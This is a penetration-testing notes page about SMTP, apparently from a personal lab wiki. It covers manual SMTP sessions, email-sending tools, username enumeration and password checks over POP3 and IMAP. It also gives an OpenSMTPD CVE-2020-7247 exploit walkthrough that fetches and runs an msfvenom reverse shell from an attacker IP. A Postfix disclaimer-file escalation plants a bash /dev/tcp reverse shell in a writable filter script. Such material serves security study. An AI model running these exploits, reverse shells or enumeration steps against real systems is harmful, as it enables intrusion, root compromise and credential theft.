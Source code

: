 # 25,587 - SMTP

The **Simple Mail Transfer Protocol (SMTP)** is used to **send emails** on ports `25` and `587`. The former is used used mainly for server-to-server email delivery and is often blocked by ISPs to prevent spam. The latter is used by users to send emails through their mail provider and it requires authentication (username & password); it is the modern, secure way to submit outgoing mail.

## Usage

{% tabs %}
{% tab title="Telnet" %}
{% code overflow="wrap" %}
```bash
# Connect to SMTP server
telnet mail.example.com 25
openssl s_client -connect <ip>:587

# Greet the server
HELO attacker.com
# or
EHLO attacker.com          # Extended SMTP (for authentication & more)

# Specify the sender email
MAIL FROM:<sender@example.com>

# Specify the recipient email
RCPT TO:<recipient@example.com>

# Start composing the email message
DATA

# Write email headers and body (end with a single dot '.' on a line)
Subject: Test Email

This is the email body.
.

# Authenticate using base64 encoded username and password (if needed)
AUTH LOGIN
<base64-username>
<base64-password>

# Close the session
QUIT
```
{% endcode %}
{% endtab %}

{% tab title="swaks" %}
The **Swiss Army Knife for SMTP** ([`swaks`](https://www.jetmore.org/john/code/swaks/)) is a CLI tool designed for testing and troubleshooting SMTP servers. It allows full control over the SMTP conversation and supports authentication, TLS, custom headers, attachments, and scripting, making it useful for verifying email server configurations, debugging, and crafting test messages in Red Team or penetration testing scenarios.

{% code overflow="wrap" %}
```bash
swaks --to x1337@hacking.com --from x7331@hacking.com --header "Subject: Hello" --body @body.txt --attach @config.Lib-ms --server 192.168.1.1 --port 25 --auth LOGIN --auth-user x7331@hacking.com --auth-password 'Pass123!'

# Multiple targets
swaks --to $(cat emails.txt | tr '\n' ',') ...
```
{% endcode %}
{% endtab %}

{% tab title="sendemail" %}
[`sendEmail`](https://github.com/mogaal/sendemail) is a lightweight command-line utility for sending email via SMTP. It supports authentication, SSL/TLS, attachments, and custom headers, making it useful for automated notifications, testing, or scripts in pentesting and administrative tasks.

{% code overflow="wrap" %}
```bash
sendemail -f 'x7331@localhost' -t 'mailadmin@localhost' -s 192.168.120.132:25 -u 'Your spreadsheet' -m 'Here is your requested spreadsheet' -a file.ods
```
{% endcode %}
{% endtab %}

{% tab title="smtp-user-enum" %}
[`smtp-user-enum`](https://pentestmonkey.net/tools/user-enumeration/smtp-user-enum) is a CLI tool used to enumerate valid usernames on SMTP servers. It leverages SMTP commands like `VRFY` and `RCPT TO` to test for user existence, helping penetration testers identify valid email accounts for further attack stages such as phishing or password guessing.

{% code overflow="wrap" %}
```bash
smtp-user-enum -M VRFY -U usernames -t <target-IP>
```
{% endcode %}

The users can be validated manually via POP3 (`110`) and/or IMAP (`143`):

```bash
# Verify users via POP3
$ telnet <target-IP> 110

USER x7331
+OK # User exists
PASS test
-ERR [AUTH] Authentication failed. # Invalid password
USER x7331
+OK
PASS Passw0rd123!
+OK Logged in. # Valid password

# Validate users via IMAP
$ telnet <target-IP> 143

a1 LOGIN x7331 Passw0rd123!
a1 OK [CAPABILITY ... SPECIAL-USE] Logged in # Valid creds
```
{% endtab %}
{% endtabs %}

## Servers

### OpenSMTPD - RCE

OpenSMTPD is a free and open-source mail transfer agent (MTA) developed as part of the OpenBSD project. Designed with security and simplicity in mind, it implements the SMTP to handle the sending and receiving of email. OpenSMTPD aims to provide a secure and easy-to-audit alternative to more complex MTAs. It is commonly deployed on Unix-like systems and is known for a minimal codebase, privilege separation, and strict adherence to secure coding practices.

**OpenSMTPD versions from 6.4 to 6.6.1** are vulnerable to [CVE-2020-7247](https://nvd.nist.gov/vuln/detail/CVE-2020-7247) and allows **RCE** as `root` via specially crafted SMTP messages. The issue arises from **improper input validation** in the `smtpctl` or `mail-from` handling logic, where attacker-supplied input is passed directly to a shell without sanitization. By sending a maliciously crafted email address, arbitrary shell commands can be executed on the target system with elevated privileges.

{% code overflow="wrap" %}
```bash
$ searchsploit OpenSMTPD
OpenSMTPD 6.6.1 - Remote Code Execution | linux/remote/47984.py

# Create reverse shell payload
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.170 LPORT=25 -f elf -o revshell.elf

# Transfer malicious file
$ python3 47984.py bratarina 25 "wget 192.168.45.170/revshell.elf -O /tmp/revshell.elf"

# Assign execute permissions
 python3 47984.py bratarina 25 "chmod +x /tmp/revshell.elf && ./tmp/revshell.elf"
                                                                                                                                                                                                                 
# Execute the file                                                                                                                                                                                                                           
$ python3 47984.py bratarina 25 "/tmp/revshell.elf" 
```
{% endcode %}

### PostFix

Postfix is a MTA used on Unix-like systems to route and deliver email. It typically operates on TCP port `25` and is **widely deployed as a default mail server** due to its speed, ease of configuration, and security features.

## Disclaimer Files

A disclaimer file in the context of SMTP email systems is typically a plaintext, bash script, or HTML-formatted message **automatically appended to the body of outbound emails**. It is most commonly used to attach legal warnings, confidentiality notices, or company branding. These disclaimers are not a function of the SMTP protocol itself, but are implemented through external tools or content filters that process outgoing mail before it reaches the final MTA.

In practice, these disclaimers are inserted using mail filters or milter-compatible tools like `altermime`, `MIMEDefang`, or `Amavis`, often integrated into MTAs such as Postfix, Exim, or Sendmail. The disclaimer content is usually stored in a local file, and its location depends on the specific configuration of the mail system. Common paths include `/etc/postfix/disclaimer.txt`, `/usr/local/etc/disclaimer.txt`, or within a custom script or filter directory.

{% code overflow="wrap" %}
```bash
# Sending an email
swaks --to targetEmail@domain.com --from x7331@domain.com --header "Disclaimer file" --body @body.txt --server <target-IP> --port 25

# Inspecting what's happening with pspy, i.e., disclaimer file automatically appended
$ ./pspy64
2025/07/26 15:33:12 CMD: UID=997   PID=38173  | pipe -n dfilt -t unix flags=Rq user=filter argv=/etc/postfix/disclaimer -f ${sender} -- ${recipient}
2025/07/26 15:33:12 CMD: UID=997   PID=38174  | /bin/bash /etc/postfix/disclaimer -f x7331@domain.com -- targetEmail@domain.com
```
{% endcode %}

If writable access is available, it can be leveraged for PE:

{% code overflow="wrap" %}
```bash
# Check what files the group have permissions on
$ find / -group filter 2>/dev/null
/etc/postfix/disclaimer

# Linpeas can also highlight it
╔══════════╣ Interesting GROUP writable files (not in Home) (max 200)
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#writable-files
  Group filter:
/etc/postfix/disclaimer

# Insert reverse shell code to the file
$ head /etc/postfix/disclaimer
#!/bin/bash
bash -i >& /dev/tcp/192.168.45.170/80 0>&1
```
{% endcode %}

On the next email sent, the reverse shell code will be executed.
